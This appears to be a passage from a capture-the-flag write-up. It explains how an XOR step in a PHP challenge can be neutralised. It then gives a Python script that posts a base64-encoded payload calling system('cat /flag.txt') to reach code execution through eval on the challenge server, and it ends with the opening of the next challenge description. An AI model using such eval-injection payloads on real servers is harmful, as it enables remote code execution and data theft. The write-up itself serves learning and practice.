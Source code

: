 There's an eval at the code, meaning we can manage to execute cat /flag.txt. BUT, there's the xor function, but we all know how xor works, it's reversible.

output = "5p1n-th3-51lly-5tr1ng5" xor (input xor key) [!we can choose key and input, remember that!]
if key = 0 : 
    output = "5p1n-th3-51lly-5tr1ng5" xor input xor "5p1n-th3-51lly-5tr1ng5"

output now matches input.

Now it's simpler. All we need to do is : Create a payload that contains "ak","a" and "d", the payload must be base64 encoded THEN xored with "5p1n-th3-51lly-5tr1ng5" which is our key.

### Script

```python
import base64
import json
import requests

payload = {
    "ak": "5p1n-th3-51lly-5tr1ng5",    
    "a": "e",
    "d": "system('cat /flag.txt');"
}

payload = json.dumps(payload)
payload = base64.b64encode(payload.encode()).decode()

data = "5p1n-th3-51lly-5tr1ng5="+payload
headers = {"Content-Type": "Application/X-WWW-FORM-URLENCODED"}
response = requests.post("http://entangled-server.niccgetsspooky.xyz:1337/", data=data, headers=headers)

print(response.text)
```










---

## Future Plans - Web

### Description 

That mysterious G0ldenFalc0ln7 is up to something. He's been pretty hard to tie down in the past, but Anna found a blog of his. It looks like he's gotten around to planning something big.

We still don't know whether he's good, bad, or just a little bit of both. For all we know, he could be one of our own.
